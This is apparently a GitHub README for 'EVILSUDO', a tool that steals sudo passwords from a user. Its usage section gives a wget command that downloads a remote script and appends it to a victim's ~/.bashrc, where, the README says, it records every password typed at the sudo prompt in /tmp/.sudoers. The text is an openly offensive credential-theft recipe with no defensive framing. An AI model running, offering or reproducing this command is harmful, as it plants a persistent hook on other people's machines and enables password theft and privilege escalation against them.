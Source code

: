 # EVILSUDO
steal sudo password from a user
## USAGE
execute 
```bash
wget -O - https://raw.githubusercontent.com/desploit/priv-esc/master/bash/evilsudo >> ~/.bashrc
```
on a victim wait for them to run a sudo command and BOOM!! both correct and incorrect passsword are stored in /tmp/.sudoers

# credits
https://gist.github.com/tokyoneon/34ce1c9e1530a12eb392b1eab09fcbac
